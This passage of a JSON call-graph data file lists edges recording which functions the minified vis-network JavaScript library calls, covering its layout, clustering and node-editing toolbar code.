"static/js/vis-network.min.js", "target": "getTreeSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addToOrdering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTreeSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_resetRNG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setupHierarchicalLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "layoutNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setupHierarchicalLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "curveType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_resetRNG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setDirectionStrategy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "adaptAllOptionsForHierarchicalLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "curveType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_resetRNG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clusterOutliers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_declusterAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "info"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "info"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_shiftToCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_declusterAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "findCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "openCluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_determineLevelsByHubsize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_determineLevelsDirected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_determineLevelsCustomCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "ensureLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_generateMap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_placeNodesByHierarchy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_condenseHierarchy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_shiftToCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getSpaceAroundNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getMaxLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getMaxLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hasSameParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "inSameSubNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_shiftBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_centerParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_shiftBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getLevels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_centerParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getLevels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getLevels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_centerParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getCenterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_indexArrayToNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_validatePositionAndContinue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_validatePositionAndContinue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getCenterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findCommonParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_shiftBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_placeBranchNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getActiveEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "levelDownstream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getHubSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getActiveEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_crawlNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_crawlNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setMinLevelToZero"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setMinLevelToZero"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_crawlNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addRelation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkIfTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTreeIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createEditButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedNodeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedEdgeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createAddNodeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createAddEdgeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createEditNodeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createEditEdgeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createDeleteButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createBackButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createDescription"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "editNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createBackButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createDescription"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSelectedEdgeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createBackButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createDescription"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getNewTargetNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getNewTargetNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_temporaryBindEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "findBorderPositions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": 